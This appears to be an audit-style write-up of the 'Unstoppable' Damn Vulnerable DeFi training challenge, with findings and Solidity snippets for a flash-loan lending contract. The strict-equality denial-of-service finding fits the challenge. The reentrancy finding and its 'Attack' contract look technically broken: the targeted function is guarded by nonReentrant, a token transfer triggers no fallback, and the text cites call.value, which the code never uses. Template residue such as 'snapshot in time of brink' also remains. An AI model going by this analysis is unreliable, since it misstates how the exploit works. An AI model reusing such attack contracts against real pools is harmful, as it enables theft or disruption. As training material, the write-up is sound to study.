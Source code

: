 # Unstoppable

Unstoppable is a [damnn vulnerable defi challenge](https://www.damnvulnerabledefi.xyz/challenges/1.html), there's a lending pool with a million DVT tokens in balance, offering flash loans for free.

# Introduction

<!-- TODO  -->
Unstoppable offers flash loans of DVT tokens for free.

The focus of the security review was on the following:

1. Ensure that the system is implemented consistently with the intended functionality, and without unintended edge cases.
2. Identify known vulnerabilities particular to smart contract systems, as outlined in our [Smart Contract Best Practices](https://consensys.github.io/smart-contract-best-practices/), and the [Smart Contract Weakness Classification Registry](https://swcregistry.io/).

*Disclaimer:* This security review does not guarantee against a hack. It is a snapshot in time of brink according to the specific commit by a three person team. Any modifications to the code will require a new security review.

# Findings 

## High Risk
### Dangerous strict equalities

**Severity:** High

**Context:** [`UnstoppableLender.sol#L40`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/unstoppable/UnstoppableLender.sol#L40)

**Description:**
Use of strict equalities that can be easily manipulated by an attacker.

If an attacker transfer DVT token to the contract without using the `depositTokens()` function, the poolBalance doesn't change and the assert at line 40 returns false, consequently it's impossible to flash loan.
```solidity
contract UnstoppableLender {
    ...
    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }
    ...
    function flashLoan(uint256 borrowAmount) external nonReentrant {
        ...
        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);

        damnValuableToken.transfer(msg.sender, borrowAmount);
        ...
    }
    ...
}
```

**Recommendation:**
```diff
+Don't use strict equality to determine if a pool has same balance.
- ...
```

### Reentrancy

**Severity:** High

**Context:** [`UnstoppableLender.sol#L26-31`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/unstoppable/UnstoppableLender.sol#L26-L31)

**Description:**
A state variable is changed after a contract uses call.value. The attacker uses a fallback function—which is automatically executed after Token is transferred from the targeted contract—to execute the vulnerable function again, before the state variable is changed.
Abusing this vulnerability I created an exploit that makes 2 deposits, and only 1 is updated in the pool balance, and that makes us break flash loan functionality.

```solidity
contract UnstoppableLender {
    ...
    function depositTokens(uint256 amount) external nonReentrant {
        ...
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
        ...
    }
    ...
}

contract Attack {
    UnstoppableLender public unstoppableLender; 
    
    constructor(address _unstoppableLenderAddress) {
        unstoppableLender = UnstoppableLender(_unstoppableLenderAddress);
    }

    fallback() external payable {
        unstoppableLender.depositTokens(10);
    }

    function attack() external payable {
        unstoppableLender.depositTokens(10);
        unstoppableLender.flashLoan(10);
    }
}
```

**Recommendation:**
```diff
+Ensure all state changes happen before calling external contracts.
- ...
```

## Medium Risk
### Incorrect versions of Solidity

**Severity:** Medium

**Context:** [`UnstoppableLender.sol#L3`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/unstoppable/UnstoppableLender.sol#L3), [`ReentrancyGuard.sol#L3`]() and [`IERC20.sol#L3`]()

**Description:**
`solc` frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex `pragma` statement.

**Recommendation:**
```diff
+Deploy with any of the following Solidity versions:
+ 0.5.16 - 0.5.17
+ 0.6.11 - 0.6.12
+ 0.7.5 - 0.7.6
+ 0.8.4 - 0.8.7 Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.
- ...
```

## Low Risk
### Unchecked transfer

**Severity:** Low

**Context:** [`UnstoppableLender.sol#L26-31`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/unstoppable/UnstoppableLender.sol#L26-L31) and [`UnstoppableLender.sol#L33-48`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/unstoppable/UnstoppableLender.sol#L33-L48)

**Description:**
The return value of an external transfer/transferFrom call is not checked


```solidity
contract UnstoppableLender {
    ...
    function depositTokens(uint256 amount) external nonReentrant {
        ...
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        ...
    }
    ...
    function flashLoan(uint256 borrowAmount) external nonReentrant {
        ...
        damnValuableToken.transfer(msg.sender, borrowAmount);
        ...
    }
    ...
}
```

**Recommendation:**
```diff
+Ensure that the transfer/transferFrom return value is checked.
- ...
```